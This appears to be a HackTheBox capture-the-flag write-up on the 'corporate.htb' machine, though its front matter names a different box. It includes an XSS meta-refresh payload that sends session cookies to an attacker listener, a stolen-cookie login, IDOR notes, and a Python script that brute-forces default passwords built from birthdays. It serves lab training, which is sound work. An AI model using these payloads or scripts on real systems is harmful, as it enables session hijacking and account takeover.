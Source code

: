 ```yaml
---
layout: post
title:  Bizness
description: Bizness is a Easy-difficulty Linux machine that focuses on a CVE...
date:   2024-08-07 08:01:35 -0500
image:  '/images/bizness01.jpg'
tags:   [HackTheBox, CTF, Retired, Linux, Easy]
featured: true
---
```

<div class="heading-wrapper">
    <h3 class="heading" id="Fuzzing">Fuzzing:</h3>
    <ul class="contains-task-list">
        <li class="task-list-item is-checked">
            <input type="checkbox" class="task-list-item-checkbox" checked> ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u <a href="http://corporate.htb" target="_blank">http://corporate.htb</a> -H 'Host: FUZZ.corporate.htb' -fs 175
        </li>
<ul>
  <li class="checked">Item 1</li>
  <li class="checked">Item 2</li>
  <li>Item 3</li>
</ul>
    </ul>
</div>

  <h1>My Checklist</h1>
  <ul class="checklist">
    <li>Item 1</li>
    <li>Item 2</li>
    <li>Item 3</li>
  </ul>


<div class="heading-wrapper">
    <h3 class="heading" id="Web_Exploration">Web Exploration:</h3>
    <ul class="contains-task-list">
        <li class="task-list-item is-checked">
            There is an AI chat bot we can seemingly take advantage of.
            <ul class="contains-task-list">
                <li>
                    We are able to send <code>&lt;html&gt; scripts</code> through the chat bot and it seems to be rendering the scripts.
                    <ul>
                        <li><code>XSS</code> Vulnerable.</li>
                    </ul>
                </li>
                <li>
                    We attempt <code>javascript</code> but it is blocking processing JavaScript with <code>CSP</code> <strong>Content-Security-Policy</strong>.
                </li>
            </ul>
        </li>
    </ul>
    <pre><code>|   | |---| |Content-Security-Policy<br>base-uri 'self'; <br>default-src 'self' http://corporate.htb http://*.corporate.htb; <br>style-src 'self' 'unsafe-inline' https://fonts.googleapis.com https://maps.googleapis.com https://maps.gstatic.com; <br>font-src 'self' https://fonts.googleapis.com/ https://fonts.gstatic.com data:; <br>img-src 'self' data: maps.gstatic.com; <br>frame-src https://www.google.com/maps/; <br>object-src 'none'; <br>script-src 'self'|`
    </code></pre>
</div>

<div class="heading-wrapper">
    <h3 class="heading" id="Exploring_available_JavaScript">Exploring available JavaScript:</h3>
    <ul class="contains-task-list">
        <li class="task-list-item is-checked">
            Here is a curl command that attempts to access that javascript and shows that its possible to access it.
            <pre><code>curl -sS '<a href="http://corporate.htb/assets/js/analytics.min.js?v=froggie" target="_blank">http://corporate.htb/assets/js/analytics.min.js?v=froggie</a>'</code></pre>
        </li>
        <li class="task-list-item is-checked">
            We can see that it's possible to exploit this javascript. We can craft a URL to send the chatbot now to grab some session cookies.
            <pre><code>&lt;meta http-equiv="refresh" content="0; url=http://corporate.htb/%3Cscript+src='/vendor/analytics.min.js'%3E%3C/script%3E%3Cscript+src='/assets/js/analytics.min.js?v=document.location=`http://10.10.14.34:34000/${document.cookie}`'%27%3C/script%3E"/&gt;</code></pre>
            Sending this script to the chat bot while having a listening server on our attack box will grab a cookie.
        </li>
    </ul>
</div>

<div class="heading-wrapper">
    <h3 class="heading" id="Cookie_Theft">Cookie Theft:</h3>
    <ul class="contains-task-list">
        <li class="task-list-item is-checked">
            Setup your server for cookie theft. <code>python -m http.server 34000</code>
            <ul>
                <li>We grab a cookie for <code>CorporateSSO</code></li>
                <li>Set the cookie in your browser. Set the path to <code>/</code> and the domain to <code>.corporate.htb</code> /Value=<code>eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6NTA3MSwibmFtZSI6Ikp1bGlvIiwic3VybmFtZSI6IkRhbmllbCIsImVtYWlsIjoiSnVsaW8uRGFuaWVsQGNvcnBvcmF0ZS5odGIiLCJyb2xlcyI6WyJzYWxlcyJdLCJyZXF1aXJlQ3VycmVudFBhc3N3b3JkIjp0cnVlLCJpYXQiOjE3MjE3NTk4OTksImV4cCI6MTcyMTg0NjI5OX0.peLklF24DypFH8xEUc2VajwwItqc6R7kHzAAgASQ1fE</code></li>
            </ul>
        </li>
        <li class="task-list-item is-checked">
            After setting the cookie then clicking sign in on <code>people.corporate.htb</code> we have access to the panel under the user <code>Julio Daniel</code>.
            <ul>
                <li>Access to some panels but nothing really stands out too much at first.</li>
                <li>We have a <code>sharing folder</code> where people can share files.</li>
                <li>Chat where employees can chat.
                    <ul>
                        <li>Clicking on profile images sends us to the user's profiles.
                            <ul>
                                <li>Vulnerable to <code>IDOR</code>. We can navigate between users in the browser by changing the user number.</li>
                            </ul>
                        </li>
                    </ul>
                </li>
                <li>There is an <code>openvpn</code> file that I can download. Probably gives access to a VPN to get into the internal network.</li>
            </ul>
        </li>
    </ul>
</div>

<div class="heading-wrapper">
    <h3 class="heading" id="IDOR">IDOR:</h3>
    <ul class="contains-task-list">
        <li class="task-list-item is-checked">
            We are able to perform some IDOR with curl and get the files of other users onto our current user's sharing folder. I can't get this to work so I'm moving on.
        </li>
    </ul>
</div>

<div class="heading-wrapper">
    <h3 class="heading" id="Brute_Forcing_Users">Brute Forcing Users:</h3>
    <ul class="contains-task-list">
        <li class="task-list-item is-checked">
            There's an email we can look at that gives us an "On-boarding" playbook. It has a generic password format for new employees.
            <ul>
                <li>We can use this basic template and brute force all users we know to see if they forgot to change their passwords.</li>
            </ul>
        </li>
    </ul>
    <pre><code>#!/usr/bin/env python3

import re
import requests

cookie = {"CorporateSSO": "YOUR_COOKIE_HERE"}

for i in range(5000, 5100):
    resp = requests.get(f"http://people.corporate.htb/employee/{i}", cookies=cookie)
    if "Sorry, we couldn't find that employee!" in resp.text:
        continue

    user_name = re.findall(r"(\w+\.\w+)@corporate.htb", resp.text)[0]
    birthday_str = re.findall(r'&lt;th scope="row"&gt;Birthday&lt;/th&gt;\s+&lt;td&gt;(\d{1,2}/\d{1,2}/\d{4})&lt;/td&gt;', resp.text)[0]
    m, d, y = birthday_str.split('/')
    password = f"CorporateStarter{d.zfill(2)}{m.zfill(2)}{y}"
    resp_login = requests.post('http://sso.corporate.htb/login', data={'username': user_name, 'password': password}, allow_redirects=False)
    if "/login?error=Invalid%20username%20or%20password" not in resp_login.text:
        print(f"{user_name}: {password}")</code></pre>
</div>

<div class="heading-wrapper">
    <h3 class="heading" id="OpenVPN">OpenVPN:</h3>
    <ul class="contains-task-list">
        <li class="task-list-item is-checked">
            Downloaded an <code>openvpn</code> file from <code>elwin.jones</code> and connected:
            <pre><code>sudo openvpn elwin-jones.ovpn</code></pre>
            <ul>
                <li>We can see the <code>tun1</code> interface being created on our attacking box.</li>
            </ul>
        </li>
    </ul>
</div>

</body>
</html>

